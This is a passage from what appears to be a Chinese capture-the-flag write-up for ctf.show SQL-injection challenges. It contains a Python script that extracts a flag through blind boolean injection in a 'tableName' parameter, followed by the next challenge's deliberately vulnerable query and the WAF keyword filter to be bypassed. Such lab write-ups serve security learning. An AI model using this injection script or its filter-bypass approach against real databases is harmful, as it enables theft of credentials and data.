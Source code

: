 得到

```
 $user_count = 43;
```

说明可以进行这样的注入。

写个脚本：

```python
import requests

url = "http://57dc48dc-6d61-491f-8ca1-6c199e3256be.chall.ctf.show/select-waf.php"
payload = "ctfshow_user as a right join ctfshow_user as b on (substr(b.pass,{},1)regexp(char({})))"
i = 5
flag ="flag{"

while True:
    i += 1
    for j in range(127):
        data = {
            "tableName":payload.format(i,j)
        }
        response = requests.post(url=url,data = data)
        if "user_count = 43;" in response.text:
            if chr(j) != ".":
                flag += chr(j)
                break;

    print(flag.lower())
```

## web185~true绕过数字

> 查询语句
>
> ```
> //拼接sql语句查找指定ID用户
>   $sql = "select count(*) from ".$_POST['tableName'].";";
>       
> ```
>
> 返回逻辑
>
> ```
> //对传入的参数进行了过滤
>   function waf($str){
>     return preg_match('/\*|\x09|\x0a|\x0b|\x0c|\0x0d|\xa0|\x00|\#|\x23|[0-9]|file|\=|or|\x7c|select|and|flag|into|where|\x26|\'|\"|union|\`|sleep|benchmark/i', $str);
>   }
> 
>       
> ```
>
> 查询结果
>
> ```
> //返回用户表的记录总数
>       $user_count = 0;
>       
> ```
